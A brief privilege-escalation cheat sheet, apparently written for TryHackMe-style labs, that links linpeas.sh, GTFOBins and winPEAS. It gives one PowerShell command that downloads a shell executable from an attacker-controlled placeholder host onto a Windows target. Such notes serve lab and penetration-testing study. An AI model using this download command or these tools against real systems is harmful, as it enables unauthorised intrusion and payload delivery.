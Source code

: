 # Privilege Escalation

## Linux

### linpeas.sh
[https://linpeas.sh/](https://linpeas.sh/)

### SUID and `sudo` Exploit
[GTFOBins](https://gtfobins.github.io/#)


## Windows

### winPEAS

[Github link](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS)

### Download File on cmd
```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://your-thm-ip:8000/shell-name.exe','shell-name.exe')"
```
